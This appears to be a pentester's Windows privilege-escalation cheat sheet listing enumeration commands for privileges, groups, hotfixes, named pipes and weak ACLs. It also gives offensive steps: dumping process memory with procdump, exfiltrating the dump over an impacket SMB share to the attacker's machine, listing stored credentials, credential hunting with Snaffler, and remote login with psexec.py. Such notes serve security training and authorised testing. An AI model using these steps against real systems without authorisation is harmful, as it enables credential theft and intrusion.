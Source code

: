 # Windows Escaltion

## Gather Network Information

	ipconfig /all
	arp -a
	route print

## Enumerate Protections

	Get-MpComputerStatus
	Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
	Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone 		Tests Applocker policy

## Basic System Information

	echo %USERNAME%		Print current user
	whoami /priv		Displays current user privileges
		Interesting Privileges:
			SeDebugPrivilege
			SeTakeOwnership
			SeBackupPrivilege
			SeLoadDriverPrivilege
	whoami /priv in cmd as admin
	whoami /groups		Displays current user groups
		Interesting Groups:
			Backup Operators
			Event Log Readers
			DnsAdmins
			Server Operators
	whoami /groups in cmd as admin
	net user		Print all users
	net localgroup		Print all groups
	net localgroup <groupname>		Prints information of group
	tasklist /svc		Gives a better idea of what applications are running on the system. Prints the name of executables and services running
		https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist

	set		Prints env variables including PATH
	systeminfo		Prints information of the system, including hotfixes applied
		https://www.catalog.update.microsoft.com/Search.aspx?q=hotfix
		If systeminfo doesn't display hotfixes, they may be queriable with WMI using the WMI-Command binary with QFE (Quick Fix Engineering) to display patches.

		wmic qfe 
		https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page
		https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/win32-quickfixengineering

		We can do this with PowerShell as well using the Get-Hotfix cmdlet.

		Get-HotFix | ft -AutoSize

	wmic product get name		Get installed programs
		or using powershell
		Get-WmiObject -Class Win32_Product |  select Name, Version

	netstat -ano		Display active tcp and udp connections
	query user		Display active users
	net accounts		Prints password policy

	get-process		Enumerates running processes

		Use procdump https://learn.microsoft.com/en-us/sysinternals/downloads/procdump , to dump the memory of any interesting running process

			.\procdump.exe -ma <process_id> <output_file>
		
		We can use an smb share to download the output_file:

			on our local machine we do

			smbserver.py -smb2support -username guest -password guest share <path_to_folder_we_gonna_share>

			smbserver is a script from impacket

			on the remote machine we do

			net use x: \\<our_local_ip>\share /user:guest guest

			and now we copy the dump file

			cmd /c "copy <filen_name>.dmp X:\"

	cmdkey /list	Lists stored credentials

## Check communication through processess using pipes

	pipelist.exe /accepteula		enumerate instances of named pipes
		https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist
	Get-ChildItem \\.\pipe\		enumerate instances of named pipes with powershell
	accesschk.exe /accepteula \\.\Pipe\<name_of_pipe> -v		Enumerate permissions of pipe. We are looking for a pipe we have WRITE permissions for our user
		https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk
	accesschk.exe -w \pipe\* -v		Enumerates all pipes that have WRITE permission


## Check weak permission

	Use the sharpup too to check service binaries suffering from weak ACLS

		SharpUP.exe audit
			https://github.com/GhostPack/SharpUp/
	Check permissions using icacls
		https://ss64.com/nt/icacls.html


## If we are in a Active Directory Environment

	Use snaffler to search for credentials.

## Remote Login with username and password

We can try doing remote logins with useranmes and passwords using a script from impacket

	psexec.py '<username>:<password>@<remote_host_ip>'


## Try WinPeas

	https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS

## More info

	https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md